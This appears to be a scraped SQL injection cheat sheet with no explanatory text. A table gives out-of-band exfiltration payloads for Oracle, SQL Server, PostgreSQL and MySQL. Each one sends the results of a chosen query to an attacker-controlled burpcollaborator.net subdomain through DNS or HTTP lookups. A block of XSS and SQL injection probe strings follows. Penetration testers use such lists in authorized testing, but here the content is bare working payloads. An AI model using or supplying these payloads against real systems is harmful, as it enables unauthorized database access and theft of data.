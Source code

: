 | Language | Syntax |
|----------|--------|
|**Oracle**	|SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?\>\<!DOCTYPE root [ \<!ENTITY % remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"\> %remote;]\>'),'/l') FROM dual|
|**Microsoft**	|declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')|
|**PostgreSQL**	|create OR replace function f() returns void as $$|
||declare c text;|
||declare p text;|
||begin|
||SELECT into p (SELECT YOUR-QUERY-HERE);|
||c := 'copy (SELECT '''') to program ''nslookup '\|\|p\|\|'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';|
||execute c;|
||END;|
||$$ language plpgsql security definer;|
||SELECT f();|
|**MySQL**	|**The following technique works on Windows only:**|
||SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'|







```
()"><script>alert(‘document.cookie’)</script>
' or '1'='1'#
" "
" #
" --
""
"&"
"*"
"-"
"/*
"^"
' #
' '
' --
' –
'#
'&'
''
'*'
'-'
'--
'/*
'='
'\"
'^'
,
--
/
/*…*/ 
//
;
=
==
```